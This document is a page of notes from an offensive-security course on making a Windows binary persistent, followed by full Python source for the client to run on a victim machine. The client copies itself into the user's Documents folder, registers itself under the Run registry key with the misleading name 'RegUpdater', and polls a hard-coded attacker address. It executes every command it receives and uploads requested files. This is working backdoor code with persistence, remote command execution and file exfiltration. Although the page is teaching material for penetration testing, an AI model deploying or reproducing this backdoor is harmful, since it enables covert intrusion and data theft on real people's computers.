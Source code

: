 ```yaml
---
title: Making your binary persistent
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - persistence
  - registry
---
```

# Making your binary persistent

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


In order for a binary to persist, the binary must do three things:

**1.** To copy itself into a different location. We need source path (current working directory) and destination path, for instance, the Document folder. This means that we need to know the username: 

	```cmd
		c:\Users\<username>\Documents
	```
	
**2.** To add a registry key pointing to our new exe location. This is done only the first time.

**3.** For consecutive times, we have to avoid repeating steps 1 and 2.


## Phases for persistence

### 1. System recognition

Getting to know the current working directory + the user profile.


### 2. Copy the binary to a different location

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will copy the binary to a different location. For that, we need a source path (current working directory) and a destination path, for instance, the Document folder. This means that we need to know the current working directory (for the source path)  and the username (for the destination path): 

	```cmd
		c:\Users\<username>\Documents
	```

This information was already retrieved in step 1 (System recognition).

### 3. Add a Registry key 

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will add a Registry key.

### 4. Fire up our shell


## Client side

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import requests
import os
import subprocess
import time
import shutil 
import winreg as wreg

#Reconn Phase
path = os.getcwd().strip('/n')

Null, userprof = subprocess.check_output('set USERPROFILE', shell=True,stdin=subprocess.PIPE,  stderr=subprocess.PIPE).decode().split('=')

destination = userprof.strip('\n\r') + '\\Documents\\' + 'client.exe'

#If it was the first time our backdoor gets executed, then Do phase 1 and phase 2 
if not os.path.exists(destination):
    shutil.copyfile(path+'\client.exe', destination) #You can replace   path+'\client.exe' with sys.argv[0] ---> the sys.argv[0] will return the file name

    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
    key.Close()



#Last phase is to start a reverse connection back to our kali machine

while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```
